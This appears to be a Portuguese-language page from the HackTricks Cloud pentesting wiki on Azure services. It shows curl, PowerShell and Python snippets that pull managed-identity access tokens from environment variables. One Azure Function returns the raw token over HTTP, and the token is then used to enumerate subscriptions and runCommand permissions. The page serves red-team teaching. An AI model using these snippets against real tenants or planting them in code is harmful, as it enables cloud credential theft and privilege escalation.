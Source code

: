 # Az - Services

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Portais

Você pode encontrar a lista de **portais da Microsoft em** [**https://msportals.io/**](https://msportals.io/)

### Requisições brutas

#### Azure API via Powershell

Obtenha **access\_token** de **IDENTITY\_HEADER** e **IDENTITY\_ENDPOINT**: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

Em seguida, consulte a API REST do Azure para obter o **ID da assinatura** e mais.
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Azure API via Python Version
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
ou dentro de uma Função Python:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## Lista de Serviços

**As páginas desta seção estão ordenadas por serviço Azure. Nelas você poderá encontrar informações sobre o serviço (como funciona e capacidades) e também como enumerar cada serviço.**

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
